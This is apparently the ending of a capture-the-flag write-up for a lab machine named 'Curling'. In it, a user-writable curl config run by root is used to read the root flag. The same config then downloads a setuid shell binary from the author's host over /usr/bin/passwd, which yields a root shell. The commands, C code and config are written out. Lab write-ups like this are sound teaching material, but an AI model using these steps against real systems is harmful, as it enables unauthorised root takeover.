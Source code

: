 ```bash
floris@curling:~/admin-area$ echo 'url = "file:///root/root.txt"' > input
floris@curling:~/admin-area$ cat report
8******************************a
```

There we have it, the `root.txt` file. In order to get a shell as root, we could upload a `setuid` bit set executable and replace an executable owned by root and execute it through the user.
I wrote a small script and compiled it on my machine and started an http server so that I could access it from the box.

```c
void main() {
    setuid(0);
    setgid(0);
    execl("/bin/sh","sh",0);
}
```

I am going to replace the `/usr/bin/passwd` executable.

```yaml
url = "http://<my-ip>/getroot"
output = /usr/bin/passwd
```

```bash
floris@curling:/$ /usr/bin/passwd
# id
uid=0(root) gid=0(root) groups=0(root),1004(floris)
```

Awesome! We have a shell as root. Absolute fun box.

Happy Hacking! Cheers!
